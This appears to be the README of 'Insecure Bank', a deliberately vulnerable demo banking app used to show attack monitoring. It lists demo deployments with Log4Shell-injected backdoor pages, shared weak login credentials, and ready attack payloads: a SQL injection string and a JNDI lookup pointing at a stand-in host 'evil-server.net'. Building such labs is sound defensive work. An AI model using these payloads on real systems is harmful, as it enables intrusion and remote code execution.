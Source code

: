 # Insecure Bank

![Insecure-Bank](img/insecure-bank.png)

## Quick information

### Deployed versions of Insecure Bank within Dynatrace

Sprint tenant (used for external demos, has to remain stable!):

* application: <https://insecurebank.apps.lab.dynatrace.org/insecure-bank/>
  * backdoor (injected via Log4Shell): <https://insecurebank.apps.lab.dynatrace.org/backdoor/>
* monitored by: <https://cfm05957.sprint.dynatracelabs.com/ui/security/attacks>

Dev tenant (can be used for arbitrary testing and internal demos):

* application: <https://insecure-bank-dev-casp.apps.lab.dynatrace.org/insecure-bank/>
  * backdoor (injected via Log4Shell): <https://insecure-bank-dev-casp.apps.lab.dynatrace.org/backdoor/>
* monitored by: <https://demo.dev.dynatracelabs.com/ui/security/attacks>

### Login credentials

* Username: `john` or `doug` or `ray` ...
* Password: `test`

### Simple attack payloads

For simple attacks, just provide one of the payloads below via the username text field.

SQL injection:

* `hacker' OR 1=1 --`

JNDI injection:

* `${jndi:ldap://evil-server.net:6666/}`

For more sophisticated attacks (Log4Shell), see [here](markdown/log4shell_exploitation.md).

## More information

What do you want to do with Insecure Bank?

Run the application:

* [Build and run Insecure Bank with Maven](markdown/building_running_maven.md)
* [Build and run Insecure Bank with Docker](markdown/building_running_docker.md)

Generate automated attack load on the application:

* [Generate attack load on a running Insecure Bank instance with Python](markdown/load_generation_python.md)
* [Generate attack load on a running Insecure Bank instance with Docker](markdown/load_generation_docker.md)

Exploit the Log4Shell vulnerability:

* [Set up exploitation of Log4Shell within Insecure Bank manually](markdown/log4shell_exploitation_setup_manual.md)
* [Set up a Log4Shell-exploitable version of Insecure Bank with Docker](markdown/log4shell_exploitation_setup_docker.md)
* [Set up a Log4Shell-exploitable version of Insecure Bank and generate attack load with docker-compose](markdown/log4shell_exploitation_setup_docker_compose.md)
* [Actually exploit Log4Shell within Insecure Bank](markdown/log4shell_exploitation.md)
